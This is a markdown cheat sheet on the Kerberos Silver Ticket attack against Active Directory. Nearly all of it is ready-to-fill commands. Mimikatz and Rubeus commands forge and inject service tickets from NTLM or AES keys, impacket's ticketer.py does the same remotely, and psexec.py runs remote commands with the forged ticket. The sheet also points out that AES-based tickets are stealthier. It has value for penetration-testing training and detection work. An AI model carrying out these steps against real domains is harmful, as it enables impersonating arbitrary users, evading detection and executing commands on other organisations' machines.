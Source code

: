 # SilverTicket
- https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/silver
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket

The Silver Ticket attack involves the exploitation of service tickets in Active Directory (AD) environments. This method relies on acquiring the NTLM hash of a service account, such as a computer account, to forge a Ticket Granting Service (TGS) ticket. With this forged ticket, an attacker can access specific services on the network, impersonating any user, typically aiming for administrative privileges. It's emphasized that using AES keys for forging tickets is more secure and less detectable.

## Generate the RC4 hash from password
```
> mimikatz.exe
> kerberos::hash /password:MyPassword
```

## Windows
### Mimikatz
```
# To generate the TGS with NTLM
> mimikatz # kerberos::golden /domain:<domain_name> /sid:<domain_sid> /rc4:<ntlm_hash> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 128 key
> mimikatz # kerberos::golden /domain:<domain_name> /sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
> mimikatz # kerberos::golden /domain:<domain_name> /sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname> 

# Inject TGS with Mimikatz
> mimikatz # kerberos::ptt <ticket_kirbi_file>
```

### Rubeus
```
> .\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

## Remote
```
$ ticketer.py -nthash $NTLM -domain-sid $DOMAIN_SID -domain $DOMAIN <USER>

# To generate the TGS with NTLM
$ python ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# To generate the TGS with AES key
$ python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# Set the ticket for impacket use
$ export KRB5CCNAME=<TGS_ccache_file>

# Execute remote commands with any of the following by using the TGT
$ python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

